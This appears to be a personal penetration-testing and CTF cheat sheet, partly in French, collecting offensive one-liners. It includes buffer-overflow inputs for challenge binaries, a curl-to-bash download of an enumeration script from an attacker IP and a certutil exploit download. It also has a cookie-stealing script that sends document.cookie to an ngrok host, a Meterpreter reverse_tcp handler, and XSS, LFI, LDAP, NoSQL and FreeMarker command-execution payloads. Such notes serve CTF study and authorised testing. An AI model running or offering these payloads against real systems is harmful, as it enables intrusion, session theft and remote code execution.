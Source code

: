 # FISHINGIG
- goldfish 

# FORENSIC

tsurugi lab

# REGGEX SUBLIME

- ()      => cree un bloc ($1)
- []      => les caracteres a chercher sont a l'interieur
- \*       => en boucle minimum 0
- \+       => en boucle minimum 1
- ^       => tant qu'on a pas (carac suivant)
- .+      => tout tant qu'on a pas de newline

examples :
        (pub fn) ([a-z_]*)([^:\n]+):([a-zA-Z-]+)([ u0-9]*) .+

# GDB

| code      | Function                          |
|-----------| ----------------------------------|
|P      | Function address |
|si     | next instruction |
|finish | End current function |

x/(?1)wx (?2) => print (?2) le nombre de cases memoires suivant l'instruction (?2)

examples :
print les 30 cases memoires suivantes de $esp
* x/30wx $esp

cat send standard entry into the pipe
* (perl -e 'print "A"x128 . "wathever"' ; cat) | ./ch15

Other implementation for x64 in Python to write the address in little endian 
- { python -c 'from struct import pack ; print "B"*280 + pack ("<Q", 0x4005e7)' ; cat' } | ./ch35

x86 chr() to write hexa
 - (python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat ) | ./ch16

examples:
```
{ python -c 'from struct import pack; print "B" * 280 + pack("<Q", 0x400556)'; cat } | ./binaire 
```
```
( python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat) | binaire
```

# REVERSE SHELL
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

# BASH

--noprofile
Do  not  read  either  the system-wide startup file /etc/profile or any of the personal
initialization files ~/.bash_profile, ~/.bash_login, or ~/.profile.  By  default,  bash
reads these files when it is invoked as a login shell (see INVOCATION below).

--norc 
Do  not  read  and execute the system wide initialization file /etc/bash.bashrc and the
personal initialization file ~/.bashrc if the shell is interactive.  This option is  on 
by default if the shell is invoked as sh.

# PRIVESC

### LINUX
Get proper TTY shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
or 
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
ctrl + z 
stty raw -echo; fg
```

Create simple http server
```
python3 -m http.server
```

Curl a file and pipe it to bash
```
curl 10.10.14.249:9999/LinEnum.sh | bash
```
wget a file 
```
wget -O LinEnum.sh 10.10.14.249:9999
```
List processes
```
ps auxwww
```
Binaries capabilities
```
getcap -r / 2>/dev/null
```
Analyze file
```
file "yolo"
```
Find SUID files
```
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```
Start a bash without a profile
```
sh -i /home/nobody/.ssh/ssh_key USER@IP -t bash --noprofile --norci  
```                                                                 
### WINDOWS

Download file PowerShell
```
certutil -urlcache -f http://10.10.14.28:8000/41020.exe 41020.exe
```
# CRYPTO
```
cat file | 
```
Decode openssl -salted
```
bruteforce-salted-openssl -t 6 -f ~/Téléchargements/rockyou.txt -c AES-256-CBC -d SHA256 decoded_drupal.txt -1
```
Encode openssl
```
openssl enc -in LEFICHIERDENTREE -out LEFICHIERDESORTIE -d -AES-256-CBC -md sha256 -pass 'pass:LEPASSQUETATROUVE'
```

# XSS
```
'onfocus="alert(1)"autofocus='
```

# LFI 

```
index.php?file=php://filter/convert.base64-encode/resource=config # will append ".php" at the end
```

## NGROK

```
<script>window.location.href='http://ngrok.io/?cookie='%2bdocument.cookie</script>
```

# METERPRETER

Handle connexions
```
use exploit/multi/handler
```
Windows handler
```
set payload windows/meterpreter/reverse_tcp
```
Interact with sessions
```
sessions -i 1                                   
```
background the meterpreter so we can use other tools
```
ctrl + z
```

windows exploit suggester (session number need to be added to the options)
```
use post/multi/recon/local_exploit_suggester
set session [session_nb]
run
```


# DIVERS
```
socat tcp-listen:2222, fork tcp 192.168.100.12:22
```

LDAP injection tester username avec ) si error
```
username=* pass=*)(& 
```
### web scanner 
```
nikto -host url
```

### nosql
Regex to use until you have the good size then inser chars before the '.' who means "Everything"
```
NOSQL usr_name[$ne]=h4cker&usr_password[$ne]=abc [$ne] == OK
NOSQL usr_name[$regex]=.{1}&usr_password[$ne]=abc 
```

## template injection 
```
https://portswigger.net/blog/server-side-template-injection 
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
```
